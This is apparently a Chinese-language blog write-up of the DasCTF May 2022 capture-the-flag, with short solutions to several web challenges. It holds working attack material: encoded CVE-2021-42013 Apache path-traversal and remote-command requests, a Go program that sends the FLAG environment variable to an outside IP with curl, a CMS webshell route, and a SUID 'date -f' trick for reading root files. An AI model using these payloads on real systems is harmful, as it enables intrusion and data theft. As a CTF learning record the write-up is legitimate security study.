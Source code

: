 ```yaml
---
title: "DasCTF0522 Wp"
slug: "dasctf0522-wp"
description: "就摁水，"
date: 2022-05-22T17:25:29+08:00
categories: ["CTF"]
series: []
tags: ["wp"]
draft: false
toc: true
---
```


## Power Cookie

```
GET /check
cookie: admin=1
```

## 魔法浏览器

控制台给出需要用的UA头

```
GET /
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Magic/100.0.4896.75
```

## getme

页面提示`pwd=/usr/local/apache2/`

尝试几个get参数，无

尝试配置文件/user/local/apache2/conf/httpd.conf，访问不到

注意到apache版本2.4.50 尝试[CVE-2021-42013](https://github.com/vulhub/vulhub/blob/master/httpd/CVE-2021-42013/README.zh-cn.md)路径穿越

```
GET /icons/.%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/flag
```

是fake flag，那直接rce

```
POST /cgi-bin/.%%32%65/.%%32%65/.%%32%65/.%%32%65/bin/sh

echo;ls /diajgk/djflgak/qweqr/eigopl
```

得到flag的真实路径，再访问

```
GET /icons/.%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/diajgk/djflgak/qweqr/eigopl/fffffflalllallalagggggggggg
```

## hackme

/upload上传go源文件和编译好的elf文件

```go
package main

import (
        "fmt"
        "log"
        "os/exec"
        "os"
)

func main() {
        ttt := os.Getenv("FLAG")
        cmd := exec.Command("curl", "101.35.114.107:8426", "-d", string(ttt))
        out, err := cmd.CombinedOutput()
        if err != nil {
                fmt.Printf("combined out:\n%s\n", string(out))
                log.Fatalf("cmd.Run() failed with %s\n", err)
        }
        fmt.Printf("combined out:\n%s\n", string(out))
}
```

## fxxkgo

原题 go ssti+jwt伪造，[LineCTF 2022]gotm

## ezcms

定位到sys/apps/controllers/admin/Update.php，有经典的后台下载zip并解压的功能

![image-20220522171032396](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20220522171032396.png)

注意到下载中间用到了`sys_auth`，有个全局`key=GKwHuLj9AOhaxJ2`

![image-20220522171256971](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20220522171256971.png)

根据sys_auth生成对应的url，访问，蚁剑

## rootme

suid提权

```bash
find / -perm -4000 2>/dev/null
LFILE=/root/flag.txt
date -f $LFILE
```

## 问卷

好好好